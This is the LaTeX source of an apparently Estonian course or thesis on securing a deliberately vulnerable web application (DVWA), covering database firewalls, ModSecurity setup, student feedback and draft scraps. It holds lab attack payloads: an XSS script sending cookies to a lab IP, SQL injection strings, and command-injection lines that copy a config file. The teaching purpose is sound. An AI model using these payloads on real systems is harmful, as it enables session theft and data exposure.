What are better solution $0 or 1$?
\begin{minted}[frame=lines,framesep=2mm]{bash}
session.cookie_httponly = 0
\end{minted}
XSS
\begin{minted}[frame=lines,framesep=2mm]{bash}
<script>var i='<img src="http://192.168.56.101/'+document.cookie+'" />'; document.write(i);</script>
\end{minted}
veel XSSi
\begin{minted}[frame=lines,framesep=2mm]{bash}
%3Cscript%3Evar+i%3D%27%3Cimg+src%3D%22http%3A%2F%2F192.168.56.101%2F%27%2Bdocument.cookie%2B%27%22+%2F%3E%27%3B+document.write%28i%29%3B%3C%2Fscript%3E
\end{minted}
SQLi
\begin{minted}[frame=lines,framesep=2mm]{bash}
#blind
1' union select BENCHMARK(100000000,ENCODE('hello','goodbye')),1; # --
 
 
2' UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM information_schema.TABLES;# --
 
 
3' union  select TABLE_NAME,COLUMN_NAME from information_schema.columns; # --

\end{minted}



\section{Installation of SQL Application Firewall}
SQL database firewall filters and rejects injected sql statements from untrusted web application. SQL firewall is application type firewall and usually understands database engine and SQL internals to determine possible malicious commands. For example detecting  SQL tautology (statement that gives always true) demands understanding SQL syntax and semantics. Detecting SQL tautology helps prevent commonly used authorization bypassing techniques.
Each database engine behaves differently and SQL firewalls are database engine aware.


Examples of commonly used database firewalls:
\begin{itemize}
\item DB Green SQL database firewall. Supports MySQL, Microsoft SQL Server, PostgreSQL
\item GreenSQL Open Source database firewall. Supports MySQL, PostgreSQL.
\item ORACLE database firewall. Supports Oracle, MySQL, Microsoft SQL Server, IBM DB2 and Sybase databases
\item SecureSphere Database Firewall. Supports Oracle, Microsoft SQL Server, Sybase, DB2, Informix, MySQL, Progress, Teradata, Netezza backends.
\end{itemize}

SQL firewalls can reject and intercept queries and modify whitelists and blacklists. Database firewalls can give false positives and false negatives during operations. Database firewall can be used in most cases but for web applications that can compose any SQL query (like  phpmyadmin for example) those solutions are not efficient. It is also possible to abuse business logic with whitelisted queries and SQL database firewalls can’t protect for those queries.
Some database firewalls supports monitoring queries and killing queries that are consuming too many resources.

Pros:
Effective way to protect SQL server for common injection attacks like SQL tautology ( ‘1’=’1’, ‘1’ like ‘1’ for example), union, if (if order by are used, then union is not allowed) etc.
Firewalls can learn to compose whitelists/blacklists.

Cons:
Each firewall can be used to protect some particular database backends.
Can give false positives and false negatives.

Conclusion for  database firewall:
If web application is SQL injection prone then database firewall solution should be used.
For proper protection some other methods should also used like least privileges and filtering before web application.

\subsection{GreenSQL Open Source SQL Firewall}
\subsubsection{Installing GreenSQL from pre built package (FOR BEGINNERS)}
\begin{minted}[frame=lines,framesep=2mm]{bash}
wget http://elab.itcollege.ee:8000/Day3/greensql-fw_1.3.0_amd64.deb
dpkg -i greensql-fw_1.3.0_amd64.deb
apt-get install -f

#Modify existing virtualhost or create new virtualhost.
cd /var/www/
ln -s /usr/share/greensql-fw/ greensql

cd /var/www/greensql
chmod 0777 templates_c
\end{minted}

\subsubsection{Installing GreenSQL Open Source frou source code (For Advanced Students)}


Download greensql-fw from download page.
\begin{minted}[frame=lines,framesep=2mm]{bash}

wget -O greensql-fw-1.3.0.tar.gz \
 "http://elab.itcollege.ee:8000/greensql-fw-1.3.0.tar.gz"

#Extract source code
tar zxvf greensql-fw-1.3.0.tar.gz

#Install pre requirements
apt-get install flex
apt-get install bison
apt-get install devscripts
apt-get install debhelper
apt-get install libpcre3-dev
apt-get install libmysqlclient-dev
apt-get install libpq-dev

#Build deb package (In this case it fails. Find out why.)
./build.sh
#Install package with dpkg
dpkg -i greensql-fw_1.3.0.deb
#Modify existing virtualhost or create new virtualhost.
cd /var/www/
ln -s /usr/share/greensql-fw/ greensql

cd greensql
chmod 0777 templates_c
\end{minted}

\section{Installation of Mod Security Application Firewall}
\begin{minted}[frame=lines,framesep=2mm,fontsize=\scriptsize]{bash}

sudo apt-get update
sudo apt-get install libxml2 libxml2-dev libxml2-utils
sudo apt-get install libapache2-modsecurity
ln -sf /usr/lib/x86_64-linux-gnu/libxml2.so.2 /usr/lib/libxml2.so.2
sudo mv /etc/modsecurity/modsecurity.conf-recommended /etc/modsecurity/modsecurity.conf
cd /tmp
 
wget http://downloads.sourceforge.net/project/mod-security/modsecurity-crs/0-CURRENT/modsecurity-crs_2.2.5.tar.gz
 
sudo tar zxf modsecurity-crs_2.2.5.tar.gz
 
sudo cp -R modsecurity-crs_2.2.5/* /etc/modsecurity/
 
sudo rm modsecurity-crs_2.2.5.tar.gz
 
sudo rm modsecurity-crs_2.2.5 -r
 
sudo mv /etc/modsecurity/modsecurity_crs_10_setup.conf.example /etc/modsecurity/modsecurity_crs_10_setup.conf 
\end{minted}


To enable rulesets create /etc/apache2/conf.d/modsecurity.conf file with following content:
\begin{minted}[frame=lines,framesep=2mm]{apache}
<ifmodule mod_security2.c>
SecRuleEngine On
</ifmodule>
\end{minted} 
\begin{minted}[frame=lines,framesep=2mm]{bash}
 
sudo a2enmod mod-security
sudo service apache2 restart

\end{minted}


File /etc/apache2/mods-enabled/mod-security.conf
\begin{minted}[frame=lines,framesep=2mm]{apache}

<IfModule security2_module>
        # Default Debian dir for modsecurity's persistent data
        SecDataDir /var/cache/modsecurity
 
        # Include all the *.conf files in /etc/modsecurity.
        # Keeping your local configuration in that directory
        # will allow for an easy upgrade of THIS file and
        # make your life easier
        Include "/etc/modsecurity/*.conf"
        Include "/etc/modsecurity/activated_rules/*.conf"
#       Include "/etc/modsecurity/optional_rules/*.conf"
        Include "/etc/modsecurity/base_rules/*.conf"
</IfModule>
\end{minted} 

\url{https://www.owasp.org/index.php/Category:OWASP_ModSecurity_Core_Rule_Set_Project}
\url{http://blog.spiderlabs.com/2011/07/modsecurity-sql-injection-challenge-lessons-learned.html}




\section{Securing Web Application Configuration}
\begin{itemize}
\item Setting Document Cookies to HTTP Only
\item Fixing Database Privileges
\item Separating Web Applications (for internal use and for external use)
\end{itemize}

\section{Final System Architecture} 
Keep in mind that final architecture contains several components to provide layered security for insecure web application as seen on Figure ~\ref{Architecture of Secured Web Application}

\begin{figure}[H] 
 \centering 
 
\includegraphics[width=0.9\textwidth]{web_security_lab_goal.pdf}
 \rule{35em}{0.5pt} 
 \caption{Architecture of Secured Web Application} 
 \label{Architecture of Secured Web Application} 
\end{figure}




\chapter{Subject Program - Securing IT Infrastructure Services}
\label{appendix:SubjecProgram}

%\includepdf{"./illustrations/IT infrastruktuuri teenuste turvamine - aineprogramm 2013.pdf"}

\includepdf[pages=-,pagecommand=\thispagestyle{plain},noautoscale,scale=0.9]{./illustrations/study_program.pdf}

\chapter{Feedback from students}
\section{Comments from intensive course students}



\subsubsection{Feedback from second group: International students}
Intensive Programme 2013 "Deploying IT Infrastructure Solutions" contains one hands-on course: Protecting web applications. Students were from Estonia, Finland, Greece and from Lithuania. 
Only Estonian students (1/3 from all students) had previous experience with GNU/Linux and this practical class was too hard for most of the students because insufficient previous knowledge:

 Comments from students (unchanged): 
*It was a bit fast, but as I have been dealing with DVWA and this kind of course before, it was okay for me. I was helping other participants. 
*quite hard to follow and was specific for one team. 
*Very important for the Security team, and good new perspectives and experiences for everyone else too. 
*Interesting course. Liked that Estonians helped people who weren’t very familiar with linux. Nothing new to me. 
*This was carried out as a practical class and was quite tough since I had little previous Linux experience. 
*It was a very long, tiring practice lecture. Somehow it would have been better to separate the long lecture into several parts. It would have been more productive. Otherwise tired lecturer and students couldn’t follow.  
*I took my first baby steps towards being professional hacker. In some cases, following teachers teaching was hard because of the fast pace. 
*Not that relevant for all projects, but still important thing to understand as a IT student. 
*Awesome, hacking is interesting. 
*Nice topic and useful to our project. It was like a first bite of our project. And Margus taught things so that everyone can learn.
*That was something different out of software engineering field 
*Very good lecture. Difficult to follow. 
*I really like to search for security holes and vulnerability threats in web pages and this tool is one of the best for testing, but I didn't manage to follow the teacher's step by step tutorial. I have got messed up in virtual machines, because I didn't have the experience for them, however I have managed to learn more about them after this topic, also Margus explained more about DVWA tool for our team, so I got the idea.


\section{Toormaterjal}
Siin on asjad, kust tõstan mingid lõigud töösse

\begin{verbatim}
8.8.8.8; pwd

8.8.8.8; cp ../../config/config.inc.php /tmp/asi.txt

8.8.8.8; cat /tmp/asi.txt

Kuigi ping tulemuste all pole config faili sisu näha, 
tehes lehel parema kliki ja valides "View Page Source" näeme, et source faili sees on config.inc.php sisu olemas.


    DVWAs kasutades "Command execution" andmebaasi loomine:
    8.8.8.8; mysql --user=root --password='student' -e 'create database kala;'

Software eggs
http://www.itcollege.ee/?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000
    

\end{verbatim}

Lisada upstart ülesanne mysql oom score tuunimiseks.


DHCP laborisse lisada shared-network konfig

Iga peatüki juurde panna kirja, mitu lehekülge on vaja.
E-kiri tsitaatidena - ainult vajalikud osad.
ainekava ei tõlgi - Jääb lisasse eesti keelsena
neljapäeva hommikul 16. saadan töö. - tühja kohta ei ole - todo on tehtud ja jääb keelekorrektuur.
neljapäevaks kaitsmisproov.



{\color{red} 
Usable to design a learner centric course instead of teacher centric. 

\url{http://www.youtube.com/watch?v=zB92UMyYzKM}

Course content - get attencion
Ingeraction amoungs students
Jugement 
Student diversity - ebaühtlus
Create a role played scenario
Analyse the material.

\url{http://www.youtube.com/watch?v=oRgLqEF-qAU}

}



%\chapter{LaTeX testing stuff}
\label{LaTeX testing stuff}
{\color{red} 
{\huge Please ignore this chaper ...
This chapter will be excluded from final version.}
}

\begin{tikzpicture}[level distance=2cm,
level 1/.style={sibling distance=5.5cm},
level 2/.style={sibling distance=2.2cm},scale=1.2]
\node {\Large Puu test}
child {node {\large Siga}
child {node {esimene}}
}
child {node {\large Kala}
child {node {teine}}
child {node {kolmas}}
child {node {neljas}}
};
\end{tikzpicture}


{\huge\today}
\fontspec{Ubuntu}
Reason of this chapter is to test \LaTeX  stuff...
\rule{2.6cm}{0.75pt}  \hspace{3cm} üü \rule{3cm}{0.75pt}\\[2cm]
\begin{itemize}
	\item LaTeX testing stuff
	\item LaTeX testing stuff LaTeX testing stuff
\end{itemize}
\begin{Verbatim}[frame=single]
stuff
\end{Verbatim}

\ldots
\marginpar{\tiny This note will appear in the margin.}


\underline{Text you want underlined goes here.}




\begin{Verbatim}[frame=single,
label=Command output,framesep=2mm,rulecolor=\color{red},commandchars=\\\{\}]
margus@marguspc:~$ df -h
Filesystem             Size  Used Avail Use% Mounted on
/dev/sda1              239G  227G  6,0G  98% /
none                   4,0K     0  4,0K   0% /sys/fs/cgroup
udev                   3,9G  4,0K  3,9G   1% /dev
tmpfs                  790M  964K  789M   1% /run
none                   5,0M     0  5,0M   0% /run/lock
none                   3,9G   14M  3,9G   1% /run/shm
none                   100M   88K  100M   1% /run/user
/dev/sda1              239G  227G  6,0G  98% /home
\fbox{\color{red}/home/margus/.Private}  239G  227G  6,0G  98% /home/margus
\end{Verbatim}
%$



\section{Section name}
\begin{enumerate}
	\item Siia midagi nummerdatut
	\item veel midagi
\end{enumerate}
\subsection{subsection name}
Please see Figure ~\ref{Lab Setup} on page ~\pageref{Lab Setup} for bla bla bla.

\begin{minted}{c}
int main() {
printf("hello, world");
return 0;
}
\end{minted}
\begin{minted}{sh}
echo $(pidof mysql)
apt-get install firefox
$333
\end{minted}
\inputminted{sh}{code/simple.sh}

\begin{figure}
    \centering
	
\includegraphics[width=\textwidth]{Lab_setup.pdf}
	\caption{Lab Setup}
	\label{Lab Setup}
\end{figure}


dddddd d  e d dwe \



\cite{website:ssl} Bla bla
\citep{book:code-complete} d  d
\citep{OppeArenduskeskus2010} de dede
\cite{url:pulse} ewd wed
\citep{SecEngineering} wewde
The \gls{EITC} gives blaa blaa blaa.

Some unicode symbols
道場

\begin{tikzpicture}
  \path[mindmap,concept color=black,text=white]
    node[concept] {Computer Science}
    [clockwise from=0]
    child[concept color=green!50!black] {
      node[concept] {practical}
      [clockwise from=90]
      child { node[concept] {algorithms} }
      child { node[concept] {data structures} }
      child { node[concept] {pro\-gramming languages} }
      child { node[concept] {software engineer\-ing} }
    }  
    child[concept color=blue] {
      node[concept] {applied}
      [clockwise from=-30]
      child { node[concept] {databases} }
      child { node[concept] {WWW} }
    }
    child[concept color=red] { node[concept] {technical} }
    child[concept color=orange] { node[concept] {theoretical} };
\end{tikzpicture}

\begin{tikzpicture}
  \path[mindmap,concept color=black,text=white]
    node[concept] {Course pre requirements skills}
    [clockwise from=0]
    child[concept color=green!50!black] {
      node[concept] {GNU/Linux}
      [clockwise from=90]
      child { node[concept] {Able to use text editor} }
      child { node[concept] {Understanding of File System Hierarchy} }
      child { node[concept] {pro\-gramming languages} }
      child { node[concept] {software engineer\-ing} }
    }  
    child[concept color=blue] {
      node[concept] {Experience with command line}
      [clockwise from=-30]
      child { node[concept] {file manipulation with cp,mv,touch,rm,mkdir etc} }
      child { node[concept] {user management with adduser, passwd, id, getent, usermod, addgroup, useradd, groupadd} }
    }
    child[concept color=red] { node[concept] {technical} }
    child[concept color=orange] { node[concept] {theoretical} };
\end{tikzpicture}


\end{document}
